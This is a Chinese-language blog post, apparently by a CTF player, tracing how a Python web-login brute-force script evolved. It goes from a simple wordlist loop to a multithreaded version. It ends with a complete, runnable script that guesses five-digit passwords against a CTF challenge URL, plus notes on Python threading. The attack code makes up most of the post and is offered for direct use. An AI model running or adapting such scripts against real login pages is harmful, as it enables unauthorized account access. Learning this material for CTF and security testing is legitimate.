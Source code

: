 # Python 我的web密码爆破脚本进化史



## 一个只含有必须要素的爆破脚本

第一版，伪代码：

```python
import requests

# url，字典设定，爆破点设定，成功特征设定（或失败特征）
url = 'http://127.0.0.1/'
dic = open('/test.txt').read().split()
point = 'password'
feature = 'welcome'

# 开始爆破
for i in dic:
		# 提交密码
		r = requests.post(url,{point:i})
		# 验证响应是否成功
		if feature in r.text:
				print(i)
```

缺少任何一个功能，整个代码都将无法运行。连成功后不再爆破的功能都没有的核心代码。



第一版最大问题在于是线性执行，每次提交密码后都原地等待响应。这段时间内什么都不做，浪费了很多的时间。为此第二版中添加了多线程功能，提升计算资源利用率。

下面是第二版**核心伪代码**：

```python
import requests
import threading

# url，字典设定，爆破点设定，成功特征设定（或失败特征）
url = 'http://120.0.0.1/'
dic = open('/test.txt').read().split()
point = 'password'
feature = 'welcome'

# 被多线程执行的函数
lock = threading.Lock()  # 多线程读取全局变量时，为了数据读写正常必须使用锁
def blast(url,dic,point,feature):
		while 1:
      	# 从 dic 列表中获取此次爆破用密码
        lock.acquire() # 上锁
       	password = dic.pop(0)
        lock.release() # 释放锁
      	# 提交密码
				r = requests.post(url,{point:password})
				# 验证响应是否成功
				if feature in r.text:
						print(password)

# 多线程启动
for i in range(10):  # 循环次数为启动的线程数
  	t = threading.Thread(target=blast,args=(url,dic,point,feature)) # 创建线程对象
    t.start() # 线程死大头（启动）
```

线程的函数执行完毕、异常、返回之后，线程便会自动退出。

是的，这个代码依旧连取得密码后退出的功能都没有。（这次包括那些线程们，它们要一直执行到 dic.pop() 方法报错后才能退出）

但无论如何，这是最核心的部分。



最后就是我在做 CTF 题目时，写的对用户有那么一点点友好的脚本。复制粘贴可以直接执行。：

```python
import sys
import time
import threading
import requests

# 字典生成
def dic():
    pw = []
    for i in range(10000,99999):
        pw.append(str(i))
    return pw
# 错误页面特征提取函数，返回整形
def feature(url,point):
    len_list = []
    for i in range(100000,100009):
        r = requests.post(url,{point:str(i)},)
        r.encoding = 'utf-8'
        len_list.append(len(r.text))
    kind = list(set(len_list))
    if len(kind) == 1:
        return kind[0]
    # 以下部分代码从未实际运行过:）
    else:
        if len_list.count(kind[0]) < len_list.count(kind[1]):
            password = len_list.index(kind[0])
            print('[*] 密码：10000',password)
            sys.exit()
        else:
            password = len_list.index(kind[1])
            print('[*] 密码：10000',password)
            sys.exit()
# 线程爆破函数
lock = threading.Lock()
def blast(url,point,dic,feature):
    while 1:
        data = {point:''}
        try:
            lock.acquire()
            data[point] = dic.pop(0)
            lock.release()
        except:
            break
        # 提交密码
        r = requests.post(url,data)
        r.encoding = 'utf-8'
        # 验证是否成功
        if feature != len(r.text):
            print()
            print('[*] 爆破成功！密码:  ' + data[point])
            # 通过删除 dic，使其他线程退出
            lock.acquire()
            for i in range(len(dic)):
                dic.pop(0)
            lock.release()
            break
        else:
            if len(dic) > 1:
              	# 提供了一个进度显示
                print('[-] [{:5}/90000]\r'.format(len(dic)),end='')
            continue

'''
初始化：
url
爆破点
字典
错误页面特征提取
'''

url = 'http://123.206.87.240:8002/baopo/'
point = 'pwd'
dic = dic()
feature = feature(url,point)
print('[-] 提取的特征值为：{}'.format(feature))
print('[-] 字典长度为：{}'.format(len(dic)))


# 多线程启动
thread = []
for i in range(50):
    t = threading.Thread(target=blast,args=(url,point,dic,feature))
    t.start()
    thread.append(t)
for i in thread:
    i.join()
```





## 拓展知识

### python 多线程

python 底层多线程的实现是用一核不停横跳，魔性之极。但这是因解释器而异，官方的 Cpython 是这样的，但其他类似 pypy等，都是可以实现多核运行多线程。实现真正的并发。

python 线程会一直执行到其函数执行结束，或返回、或异常，才会自然结束。

线程共享一个内存空间，换言之共享全局变量。

注意，函数内部变量不被共享。不用担心内部变量的安全。

再注意，函数内部在传入类的引用时，即使用内部命名再引用，也还是全局的。需要用锁关注变量读写安全。

### 核心代码：

```python
import threading

# 创建线程执行方法
def x(n):
  for i in range(10):
  	print(n)
  
# 创建线程对象
t = threading.Thread(target=x,args=(n,))
# 启动线程，开始运行
t.start()

# join方法会让调用它的线程被阻塞，直到方法所属对象执行完毕。这里阻塞的是调用它的主线程
# 如果不调用的话，你也许会看到 10 个线程打印结束前打印了 '主线程结束'
t.join()

print('主线程结束')
```

